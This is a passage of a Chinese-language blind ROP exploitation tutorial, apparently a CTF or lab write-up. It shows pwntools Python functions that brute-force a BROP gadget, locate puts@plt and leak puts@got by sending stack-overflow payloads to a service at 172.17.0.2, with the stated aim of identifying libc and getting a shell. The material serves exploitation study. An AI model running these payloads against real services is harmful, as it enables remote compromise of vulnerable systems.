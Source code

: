 ```python
    addr = main+offset
    while True:
      if get_brop_gadget(length,main,addr):
        print 'possible brop gadget: %#x' % addr
        if check_brop_gadget(length,addr):
          print 'success brop gadget: %#x' % addr
          break
      addr += 1
    return addr

  # gadets_addr = get_gadgets(length,main,0x100)
  gadgets_addr = 0x40079a
  pop_rdi = gadgets_addr + 9
```

##### 确定puts@plt地址

得到了`pop rdi;ret`就可以来获取puts@plt了,如果从0x400000输出，那么会得到'\x7fELF'

```python
  def get_puts_plt(length,pop_rdi,main):
    addr = 0x400000
    while True:
      p = remote('172.17.0.2',10001)
      p.recvuntil("WelCome my friend,Do you know password?\n")
      payload = 'A'*length + p64(pop_rdi) + p64(0x400000) + p64(addr) + p64(main)
      p.send(payload)
      try:
        content = p.recv()
        p.close()
        if content.startswith('\x7fELF'):
          print 'find puts@plt addr: %#x' % addr
          return addr
        addr += 1
      except Exception:
        addr += 1
        p.close()

  # puts_plt = get_puts_plt(length,pop_rdi,main)
  puts_plt = 0x400545
```

##### 泄露puts@got地址

可以调用 puts 函数后，通过泄露 puts 函数的地址，进而获取 libc 版本，从而获取拿到shell。从0x400000 开始泄露 0x1000 个字节，这已经足够包含程序的 plt 部分了。

```python
  def leak_puts_addr(length,pop_rdi,puts_plt,leak_addr,main):
    p = remote('172.17.0.2',10001)
    p.recvuntil("WelCome my friend,Do you know password?\n")
    payload = 'A'*length + p64(pop_rdi) + p64(leak_addr) + p64(puts_plt) + p64(main)
    p.send(payload)
    try:
      data = p.recv()
      p.close()
      try:
        data = data[:data.index("\nWelCome")] # puts会以\n输出结束，执行完之后会重新执行程序，输出"WelCome my friend,Do you know password?\n"
      except Exception:
        data = data
      if data == "":
        data = '\x00' # puts会被\x00截断
      return data
    except Exception:
      p.close()
```